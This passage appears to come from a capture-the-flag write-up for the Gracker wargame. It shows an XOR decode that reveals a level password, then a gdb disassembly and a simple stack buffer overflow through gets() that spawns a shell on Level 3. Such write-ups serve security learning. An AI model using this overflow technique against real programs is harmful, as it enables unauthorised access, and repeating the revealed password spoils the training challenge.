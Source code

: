 We got the shell!

Reading the recap in the next level this is the solution:

```python
>>> pw = ""
>>> for c in ")q6\036(2\036\065)p2\036)u\"*r3\036'q--q6(/&\036,r":
...  pw += chr(ord(c)^0x41)
...
>>> print pw
h0w_is_th1s_h4ck3r_f0ll0wing_m3
```

This is a lot simpler than I though :v.

# Gracker Level 3

```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400718 <+0>:     push   %rbp
   0x0000000000400719 <+1>:     mov    %rsp,%rbp
   0x000000000040071c <+4>:     sub    $0x60,%rsp
   0x0000000000400720 <+8>:     mov    %edi,-0x54(%rbp)
   0x0000000000400723 <+11>:    mov    %rsi,-0x60(%rbp)
   0x0000000000400727 <+15>:    movl   $0x0,-0x4(%rbp)
   0x000000000040072e <+22>:    mov    $0x400800,%edi
   0x0000000000400733 <+27>:    callq  0x400540 <puts@plt>
   0x0000000000400738 <+32>:    lea    -0x50(%rbp),%rax
   0x000000000040073c <+36>:    mov    %rax,%rdi
   0x000000000040073f <+39>:    callq  0x4005b0 <gets@plt>
   0x0000000000400744 <+44>:    mov    -0x4(%rbp),%eax
   0x0000000000400747 <+47>:    test   %eax,%eax
   0x0000000000400749 <+49>:    je     0x400761 <main+73>
   0x000000000040074b <+51>:    mov    $0x400828,%edi
   0x0000000000400750 <+56>:    callq  0x400540 <puts@plt>
   0x0000000000400755 <+61>:    mov    $0x0,%eax
   0x000000000040075a <+66>:    callq  0x4006c6 <spawn_shell>
   0x000000000040075f <+71>:    jmp    0x40076b <main+83>
   0x0000000000400761 <+73>:    mov    $0x400891,%edi
   0x0000000000400766 <+78>:    callq  0x400540 <puts@plt>
   0x000000000040076b <+83>:    leaveq 
   0x000000000040076c <+84>:    retq   
End of assembler dump.
(gdb) 
```

Surprisingly this works.

```
Zero Cool - Bugdoor v4
Enter Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
How can this happen? The variable is set to 0 and is never modified in between O.o
You must be a hacker!
$ 
```
